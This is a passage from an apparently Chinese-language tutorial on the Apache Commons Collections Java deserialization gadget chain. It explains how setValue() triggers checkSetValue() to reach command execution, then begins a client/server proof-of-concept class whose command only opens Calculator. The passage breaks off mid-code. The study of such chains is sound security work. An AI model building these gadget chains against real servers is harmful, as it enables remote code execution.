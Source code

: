 最后通过`setValue()`方法调用了`checkSetValue()`方法，从而造成命令执行
![image-20220913180841818](images/image-20220913180841818.png)

![image-20220913180501737](images/image-20220913180501737.png)

模拟成现实情况（客户端发送请求-服务端处理请求）
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args) throws Exception {
        TransformerTest transformerTest = new TransformerTest();
        transformerTest.serialize();
        transformerTest.unserialize();
    }

    /*
    * 客户端
    * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

```